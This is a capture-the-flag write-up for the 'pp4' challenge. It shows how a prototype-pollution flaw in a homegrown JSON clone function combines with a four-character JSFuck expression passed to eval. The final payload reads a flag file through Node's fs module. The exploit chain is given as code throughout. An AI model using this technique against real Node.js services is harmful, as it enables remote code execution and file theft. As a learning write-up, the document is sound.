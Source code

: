 # pp4

## Challenge Overview

The challenge involved a Node.js script running on the organizer's infra in a container which also housed a file containing the flag.

The script did the following things:

1. Accepted a JSON string, which it parsed with JSON.parse and then it deep-cloned it using a homegrown clone function
2. Accepted JavaScript code which then it executed in the same script using `eval`. The code could only use 4 distinct characters.

## Our solution

After viewing the source code of the script we quickly noticed that the flaw lies in the `clone` function.

```js
const clone = (target, result = {}) => {
  for (const [key, value] of Object.entries(target)) {
    if (value && typeof value == "object") {
      if (!(key in result)) result[key] = {};
      clone(value, result[key]);
    } else {
      result[key] = value;
    }
  }
  return result;
};
```

It does not check the `key` for `"prototype"` or `"__proto__"`. This means it is vulnerable to [prototype pollution](https://learn.snyk.io/lesson/prototype-pollution/).

And the other part of the script reminded us of [JSFuck](https://jsfuck.com/). The only problem is that JSFuck uses 6 characters (two more than were allowed in the task). That being said the JSFuck homepage includes a handy cheatsheet of strings it uses to encode different things:

- `false`       =>  `![]`
- `true`        =>  `!![]`
- `undefined`   =>  `[][[]]`
- `NaN`         =>  `+[![]]`
- `0`           =>  `+[]`
- `1`           =>  `+!+[]`
- `2`           =>  `!+[]+!+[]`
- `10`          =>  `[+!+[]]+[+[]]`
- `Array`       =>  `[]`
- `Number`      =>  `+[]`
- `String`      =>  `[]+[]`
- `Boolean`     =>  `![]`
- `Function`    =>  `[]["filter"]`
- `eval`        =>  `[]["filter"]["constructor"]( CODE )()`
- `window`      =>  `[]["filter"]["constructor"]("return this")()`

As we can see not all of them use the full 6 characters - some of them only two or four. This means we should somehow combine this subset of a subset to execute something useful.

We knew that we would somehow need to execute normal JS code in there, so we needed the `eval` primitive. It uses exactly 4 different characters (`[`, `]`, `(`, `)`), and from that we can eliminate all the primitives that use `!` or `+`. This leaves us with:

- `undefined`   =>  `[][[]]`
- `Array`       =>  `[]`
- `Function`    =>  `[]["filter"]`
- `eval`        =>  `[]["filter"]["constructor"]( CODE )()`
- `window`      =>  `[]["filter"]["constructor"]("return this")()`

That means we need to somehow represent three strings: `"filter"`, `"constructor"` and the code that dumps the flag. We will provide those using the prototype pollution.


We modified the script a little bit to serve as a playground to test our solution. This is how we got our first required string.

```js
(async () => {
// Step 1: Prototype Pollution

    const json = `{
        "__proto__": {
            "undefined": "filter"
        }
    }`
  console.log(clone(JSON.parse(json)));

  // Step 2: JSF**k with 4 characters

   const undef = `[][[]]`;
   const filterStr = `[][${undef}]`;
   const code = `${filterStr}`;
  if (new Set(code).size > 4) {
    console.log("Too many :(");
    return;
  }
  console.log("result", eval(code));
})().finally(() => rl.close());
```

To achieve that we polluted the `Object` prototype at with the key of `"undefined"` and indexed an array with `undefined`. `Array` extends `Object` and `undefined` got converted to a string, so the `filter` string was retrieved.

 We used javascript's template literal to "compose" the final code not to get lost in the mess of multiple characters `[`, `]` right next to each other.


We then proceeded to obtaining the `"constructor"` string. 

```js
(async () => {
// Step 1: Prototype Pollution

    const json = `{
        "__proto__": {
            "undefined": "filter",
            "filter": "constructor"
        }
    }`
  console.log(clone(JSON.parse(json)));

  // Step 2: JSF**k with 4 characters

   const undef = `[][[]]`;
   const filterStr = `[][${undef}]`;
   const constructorStr = `[][${filterStr}]`;
   const code = `${constructorStr}`;
  if (new Set(code).size > 4) {
    console.log("Too many :(");
    return;
  }
  console.log("result", eval(code));
})().finally(() => rl.close());
```

We decided to add another key - `"filter"` to the prototype and then index the array with it (since we have it from the previous step).

This program yielded an unexpected result:

```
> node pp4.js
{}
result [Function: filter]
```

After some experimentation we noticed that this does not happen for other strings than `"filter"`. Turns out this is due to the fact that [`Array.prototype.filter()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/filter) exists and it overrides the field we polluted. 

Fortunately we had another string - our code that could serve as a key. Then in the key indexed by the code we added another object with the same indexes - but the values were `"filter"` and `"constructor"`.  We added a placeholder for the code we were going to execute:


```js
(async () => {
// Step 1: Prototype Pollution

    const payload = `console.log("hello")`;
    const json = `{
        "__proto__": {
            "undefined": ${JSON.stringify(payload)},
            ${JSON.stringify(payload)}: {
                ${JSON.stringify(payload)}: "constructor",
                "undefined": "filter"
            }
            
        }
    }`
  console.log(clone(JSON.parse(json)));

  // Step 2: JSF**k with 4 characters

   const undef = `[][[]]`;
   const codeStr = `[][${undef}]`;
   const filterStr = `[][${codeStr}][${undef}]`
   const constructorStr  = `[][${codeStr}][${codeStr}]`
   const code = `[][${filterStr}][${constructorStr}](${codeStr})()`;
  if (new Set(code).size > 4) {
    console.log("Too many :(");
    return;
  }
  console.log("result", eval(code));
})().finally(() => rl.close());
```

This is the JSFuck part of the challenge done. The final resulting JSFuck was:

```js
[][[][[][[][[]]]][[][[]]]][[][[][[][[]]]][[][[][[]]]]]([][[][[]]])()
```

Now came the part of writing the payload. Initially we started with this code:

```js
const fs = require('fs');
console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))
```

Unfortunately it broke with:

```
    const fs = require('fs');
               ^

ReferenceError: require is not defined
```

Apparently this happens in nodejs when writing code as a string and passing it to the `Function` prototype. Fortunately we found [this stackoverflow post](https://stackoverflow.com/a/43492031) which remediated the problem.

Final payload:

```js
const fs = global.process.mainModule.constructor._load('fs');
    console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))
```

The only thing left was to take the final JSON and JSFuck and send it to the server over `nc`. This is roughly what we sent:

JSON:

```json
{"__proto__":{"undefined":"\n    const fs = global.process.mainModule.constructor._load('fs');\n    console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))\n    ","\n    const fs = global.process.mainModule.constructor._load('fs');\n    console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))\n    ":{"\n    const fs = global.process.mainModule.constructor._load('fs');\n    console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))\n    ":"constructor","undefined":"filter"}}}
```

JSFuck:

```js
[][[][[][[][[]]]][[][[]]]][[][[][[][[]]]][[][[][[]]]]]([][[][[]]])()
```

